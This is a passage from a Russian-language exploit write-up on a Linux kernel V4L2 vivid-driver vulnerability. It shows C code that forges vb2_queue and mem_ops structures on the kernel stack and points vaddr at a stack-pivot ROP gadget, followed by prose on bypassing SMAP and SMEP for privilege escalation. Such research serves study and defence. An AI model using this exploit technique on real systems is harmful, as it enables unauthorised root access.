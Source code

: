 ```c
printf("   vb2_queue of size %lu will be at %p, userspace %p\n",
	sizeof(struct vb2_queue),
	vbuf->vb.vb2_buf.vb2_queue,
	vq);

/* just to survive vivid list operations */
vbuf->list.next = (struct list_head *)(kstack - TIMEX_STACK_OFFSET + LIST_OFFSET);
vbuf->list.prev = (struct list_head *)(kstack - TIMEX_STACK_OFFSET + LIST_OFFSET);

/*
 * point to future position of vb2_mem_ops in timex payload on kernel stack;
 * mem_ops offset is 0x38, be careful with OPS_OFFSET
 */
vq->mem_ops = (struct vb2_mem_ops *)(kstack - TIMEX_STACK_OFFSET + OPS_OFFSET);
printf("   mem_ops ptr will be at %p, userspace %p, value %p\n",
	&(vbuf->vb.vb2_buf.vb2_queue->mem_ops),
	&(vq->mem_ops),
	vq->mem_ops);

memops = (struct vb2_mem_ops *)(timex_addr + OPS_OFFSET);

/* vaddr offset is 0x58, be careful with ROP_CHAIN_OFFSET */
memops->vaddr = (void *)ROP__PUSH_RDI__POP_RSP__pop_rbp__or_eax_edx__RET + kaslr_offset;
printf("   mem_ops struct of size %lu will be at %p, userspace %p, vaddr %p at %p\n",
	sizeof(struct vb2_mem_ops),
	vq->mem_ops,
	memops,
	memops->vaddr,
	&(memops->vaddr));
```

На следующей схеме представлено, как части полезной нагрузки взаимосвязаны в адресном пространстве ядра после этой адаптации.
![payload anatomy](https://a13xp0p0v.github.io/img/v4l2_payload.png)

## ROP'n'JOP

В этом разделе описана ROP-цепочка (Return-Oriented Programming), которую я создал для повышения привилегий в специфических условиях контекста потока ядра.

Я нашел отличный ROP-гаджет, который переключает стек ядра на контролируемую область памяти (stack-pivoting gadget) и при этом хорошо подходит к прототипу функции `void *(*vaddr)(void *buf_priv)`, где происходит перехват потока исполнения. В качестве аргумента `buf_priv` передается значение `vb2_plane.mem_priv`, над которым есть контроль. В ядре Linux для микроархитектуры `x86_64` первый аргумент функции передается через регистр `RDI`. Таким образом связка инструкций `push rdi; pop rsp` переключает указатель стека на контролируемую область памяти, которая также находится в ядерном стеке, что обеспечивает обход аппаратных средств защиты `SMAP` и `SMEP`.

Ниже приведена сама ROP-цепочка для повышения привилегий в системе. Она получилась необычной, так как она должна быть исполнена из контекста ядерного потока:
